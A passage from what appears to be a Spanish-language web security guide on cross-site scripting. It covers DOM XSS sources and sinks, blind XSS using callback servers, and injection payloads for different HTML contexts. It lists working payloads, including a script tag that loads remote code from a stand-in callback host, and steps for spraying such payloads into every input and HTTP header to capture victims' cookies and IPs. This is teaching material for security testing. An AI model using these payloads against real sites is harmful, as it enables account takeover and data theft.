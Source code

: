      JavaScript

```javascript
  // Código vulnerable en la página
  var searchTerm = location.hash.substring(1); // Fuente: location.hash
  document.getElementById('searchResults').innerHTML = "Resultados para: " + searchTerm; // Sink: innerHTML
```

Payload del atacante: `https://sitio-vulnerable.com/busqueda#<img src=x onerror=alert(1)>`
- **Fuentes comunes (Sources):** `document.URL`, `document.documentURI`, `location.href`, `location.search`, `location.hash`, `document.referrer`, `window.name`, `localStorage.getItem()`, `sessionStorage.getItem()`, datos recibidos vía `postMessage`.
- **Sinks peligrosos (Sinks):** `element.innerHTML`, `element.outerHTML`, `document.write()`, `document.writeln()`, `eval()`, `setTimeout()`, `setInterval()`, `element.setAttribute('href', 'javascript:...')`, `script.src`, jQuery's `$(...).html()`, `$(...).append()`, `window.location.assign()`, `$.parseHTML()`.
4. **Blind XSS:**

- Es una variante de XSS Almacenado donde el atacante inyecta un payload, pero la reflexión (ejecución del script) ocurre en una parte diferente de la aplicación que el atacante no ve directamente (e.g., un panel de administración interno, un visor de logs, una aplicación móvil que consume datos de una API).
- El atacante inyecta el payload "a ciegas" y espera una notificación (callback) cuando se ejecute.
- **Herramientas (Servidores de Callback):**
    - **Interactsh (de ProjectDiscovery):** Genera URLs únicas para usar en payloads. Cuando el payload se ejecuta, hace una petición a esta URL, notificando al atacante.
    - **Burp Collaborator Client (Burp Suite Pro):** Similar a Interactsh.
    - **XSS Hunter Express (auto-hosteable):** Alternativa a XSSHunter.com (ya no activo).
- **Pasos:**
    1. Generar un payload con un servidor de callback (e.g., `<script src="https://tu-dominio-interactsh.com"></script>`).
    2. Inyectar el payload en todos los campos de entrada posibles, incluyendo cabeceras HTTP (User-Agent, Referer, X-Forwarded-For), formularios de contacto, feedback, etc.
    3. Esperar la notificación (pingback) en el servidor de callback, que indicará la URL donde se ejecutó, IP de la víctima, cookies (si es posible), etc.
### Contextos de Inyección y Técnicas de Escape

El payload XSS debe adaptarse al contexto específico donde se inyecta el input del usuario.

1. **Inyección Directa en HTML:**

   - Entre etiquetas: `<div>AQUÍ_INPUT</div>` -> Payload: `<script>alert(1)</script>`
   - `URL_param=javascript:alert(1)` (en `href` de `<a>` o `src` de `<iframe>`)
   - `URL_param=<a href="javascript:alert(1)">Click</a>`
   - `URL_param=<iframe src="javascript:alert(1)"></iframe>`
   - `URL_param=<iframe srcdoc="<script>alert(1)</script>"></iframe>` (si `srcdoc` está permitido)
2. **Inyección Dentro de Atributos HTML:**

   - Input: `<input type="text" value="AQUÍ_INPUT">`
     - Escape: `"><script>alert(1)</script>` (cierra el atributo y la etiqueta)
     - Con Event Handler: `" onmouseover="alert(1);"` (cierra el valor, añade un event handler)
     - Si las comillas están filtradas: `value=USUARIO onmouseover=alert(1)//` (el `//` comenta el resto)
   - Input: `<a href="/ruta/AQUÍ_INPUT">`
     - Escape: `javascript:alert(1)` (si el servidor lo permite en `href`)
3. **Inyección Dentro de Etiquetas HTML Específicas (Escapando de ellas):**
